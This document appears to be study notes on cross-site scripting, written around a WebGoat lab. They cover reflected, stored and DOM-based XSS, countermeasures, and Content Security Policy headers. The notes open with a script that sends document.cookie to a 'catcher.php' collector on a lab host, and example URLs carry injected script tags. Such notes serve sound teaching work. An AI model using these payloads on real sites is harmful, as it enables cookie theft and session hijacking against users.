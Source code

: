 Example to get cookies:
```javascript
<script>
XSSImage=new Image;
XSSImage.src='http://ubuntu.test/attackdemo/WebGoat/catcher/catcher.php?cookie=' + document.cookie;
</script>
```

### Reflected XSS
* Also called non-persistent
* Example could be that the attacker prepares link: `https://example.com?search=<script>alert('test')</script>`
  * Link is processes by server and javascript is directly included in the page
* Other example using post requests:
  * Attacker sends user email to own website with link
  * If user clicks link, theres a hidden form which automatically submits the form

### Stored XSS
* JavaScript code is permantely stored on the server (e.g. in a database that serves data for a guest book)

### DOM-based XSS
* No server is involved at all, everything happens in the browser
* Example:
  * Include JavaScript code using `#` symbol that is not send to server:
  * `http://ubuntu.test/attackdemo/general/DOMbased_XSS1.html#<script>alert("XSS");</script>`
  * Some browsers do detect but some do not
* CSP does not help against this:
  * Only prevents the direct insertion of JavaScript code into the page, but if external JavaScript file (that is allowed) inserts JavaScript code to the page, this is permitted

### Counter Measures:
* Everything that is put on the page has to be sanitized
* Browsers also offer counter measures:
  * Check if last requests contains the same JavaScript code block that is going to be executed -> likely attack and code is not executed
  * [http://lwn.net/Articles/360424](http://lwn.net/Articles/360424)
* Content Security Policy
* DOM-based XSS:
  * Write secure JavaScript code (do not use `unescape()` or `eval()`)

### Content Security Policy (CSP)
* Defines which **web-content** can be loaded at **which locations**
* Is comunicated to the browser using a HTTP header in the response
* JavaScript code can now **only** be executed in separate files that need to be allowed
* Example: Everything is allowed from own domain: `Content-Security-Policy: default-src 'self'`
* Example: Everything is allowed from own domain, but images are allowed from anywhere, media files only from media1.com, media2.com and scripts only from scripts.supersecure.com
  * `Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src scripts.supersecure.com`
